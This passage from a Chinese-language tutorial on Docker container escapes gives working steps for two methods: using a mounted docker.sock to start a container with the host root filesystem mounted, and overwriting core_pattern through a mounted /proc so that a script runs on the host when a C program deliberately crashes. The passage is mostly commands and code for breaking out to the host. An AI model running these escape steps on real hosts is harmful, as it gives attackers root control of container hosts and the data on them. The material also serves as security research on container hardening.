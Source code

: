     
    
    sh -c "echo \$\$ > /tmp/cgroup/cgroup_2/cgroup.procs"

![](https://gitee.com/fuli009/images/raw/master/public/20210915101906.png)

#### 方式四：挂载docker.sock实现逃逸

当宿主机的docker.sock被挂载到容器内时，此容器可以通过docker.sock控制宿主机创建任意配置容器和控制正在运行的容器

    
    
     docker -H unix:///hack/docker.sock info  #通过此命令可以查看docker信息

![](https://gitee.com/fuli009/images/raw/master/public/20210915101907.png)

    
    
    docker -H unix:///hack/docker.sock run -it  --rm -v /:/test --name=docker_sock_taoyi2 centos  /bin/bash  #通过docker创建一个挂载宿主机根目录的容器  
    

创建成功。

#### 方式五：挂载/proc目录实现逃逸

![](https://gitee.com/fuli009/images/raw/master/public/20210915101908.png)

1、与cgroup相同，通过读取/etc/mtab获取uppdir= 后面跟随的路径。  

    
    
    sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab

![](https://gitee.com/fuli009/images/raw/master/public/20210915101909.png)

2、此时容器内的 /exp.sh
对应宿主机/var/lib/docker/overlay2/5aad6c46857541101a54c64b8e92ac8495e4eecb6bbd6a76e24a0335be8d2d92/diff/exp.sh
文件。

![](https://gitee.com/fuli009/images/raw/master/public/20210915101910.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210915101911.png)

3、挂载之后的文件，相当于共享。容器内外修改都会对应产生变化

    
    
    echo -e "|/var/lib/docker/overlay2/5aad6c46857541101a54c64b8e92ac8495e4eecb6bbd6a76e24a0335be8d2d92/diff/exp.sh \rcore " > /host_proc/sys/kernel/core_pattern  
    

![](https://gitee.com/fuli009/images/raw/master/public/20210915101912.png)

4、容器内触发segmentation fault

    
    
    #include <stdio.h>  
      
    int main(void){  
    int *a = NULL;  
    *a = 1;  
    return 0;  
    }
